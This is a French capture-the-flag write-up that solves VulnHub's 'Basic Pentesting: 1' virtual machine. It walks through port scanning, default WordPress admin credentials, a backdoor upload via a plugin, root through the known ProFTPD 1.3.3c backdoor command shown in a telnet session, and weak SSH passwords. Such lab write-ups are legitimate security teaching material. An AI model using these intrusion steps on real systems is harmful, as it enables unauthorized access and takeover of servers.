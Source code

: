 # Solution du CTF Basic Pentesting: 1 de VulnHub

Ici on attaque un CTF nommé [Basic Pentesting](https://www.vulnhub.com/entry/basic-pentesting-1,216/) qui porte bien son nom. Par conséquent je ne passerais que rapidement sur l'exploitation de ce CTF.  

Au menu
-------

```plain
Nmap scan report for 192.168.1.48
Host is up (0.00065s latency).
Not shown: 65499 closed ports, 33 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|_  256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:14:06:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.0
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

La page d'index est celle par défaut d'Apache (*It works!*) mais le module buster de *Wapiti* nous laisse une piste supplémentaire :  

```plain
[*] Launching module buster
Found webpage http://192.168.1.48/secret
```

Il s'agit d'un blog Wordpress en version 4.9.2 (d'après la balise meta generator du code HTML)  

On remarque vite que les liens du site font référence à un hostname appelé *vtcsec* du coup on rajoute une entrée dans notre */etc/hosts*.  

#OPSecFAIL
----------

On lance un *WPScan* dessus qui trouve essentiellement que le listing est activé sur le dossier */wp-includes/* et que l'utilisateur admin est présent.  

Le dossier wp-includes n'a rien qui saute au yeux... Mais quand on essaye de se connecter sur */wp-admin* avec admin/admin... ça passe.  

A partir de là chacun à sa technique, moi j'aime bien installer le plugin [wp-file-manager](https://wordpress.org/plugins/wp-file-manager/) qui permet de gérer les fichiers (on ne voit que ceux sous la racine wordpress mais on peut uploader une backdoor).  

Bien sûr on tourne avec les droits *uid=33(www-data) gid=33(www-data) groups=33(www-data)*.  

On trouve facilement un utilisateur *marlinspike* sur le système (membre du groupe *sudo*) dont le dossier personnel est visitable.  

On trouve notamment une archive décompressée nommée *backdoored\_proftpd-1.3.3c* faisant référence [à une backdoor bien connue](https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor).  

L'obtention des droits root est facile :  

```plain
$ telnet vtcsec 21
Trying 192.168.1.48...
Connected to vtcsec.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (vtcsec) [192.168.1.48]
HELP ACIDBITCHEZ
id;
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

#YOLOsecurity
-------------

Le synopsis nous invite à chercher d'autres façons d'obtenir les droits root.  

Une possibilité est d'utiliser le mot de passe *marlinspike* pour le compte du même nom :  

```plain
$ ssh marlinspike@vtcsec
marlinspike@vtcsec's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.10.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

19 packages can be updated.
19 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

marlinspike@vtcsec:~$ sudo -l
[sudo] password for marlinspike:
Matching Defaults entries for marlinspike on vtcsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marlinspike may run the following commands on vtcsec:
    (ALL : ALL) ALL
```

Au passage ça m'a fait remarquer que [Ncrack](https://nmap.org/ncrack/) ne dispose pas d'option pour tester automatiquement l'absence de mot de passe ou un mot de passe équivalent au login alors que [cette bonne vieille Hydre](https://www.thc.org/thc-hydra/) peut le faire.  

On rajoutera à ça la présence de permissions hasardeuses :  

```plain
-rw-rw-rw-  1 root root    2364 Nov 16 13:02 passwd
-rw-r--r--  1 root shadow  1305 Nov 16 13:02 shadow
```

Conclusions
-----------

Simple et rapide. Une situation plus réaliste aurait été la présence d'une page avec une injection SQL permettant de retrouver le hash de l'admin Wordpress pour le casser...

*Published February 05 2018 at 12 09*